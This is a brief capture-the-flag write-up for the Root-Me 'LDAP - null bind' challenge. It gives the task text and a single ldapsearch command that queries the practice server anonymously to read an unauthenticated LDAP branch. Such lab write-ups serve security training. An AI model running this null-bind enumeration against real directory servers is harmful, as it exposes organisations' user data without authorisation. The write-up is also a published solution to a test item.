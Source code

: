 # LDAP null bind

[root-me challenge LDAP - null bind](https://www.root-me.org/en/Challenges/Network/LDAP-null-bind): It seems that one of the anonymous created a new branch in the LDAP directory, somewhere in:

    dc=challenge01,dc=root-me,dc=org

Get access to its data and get his email adress.

----

```text
ldapsearch -x -b "ou=anonymous,dc=challenge01,dc=root-me,dc=org" -H "ldap://challenge01.root-me.org:54013"
```
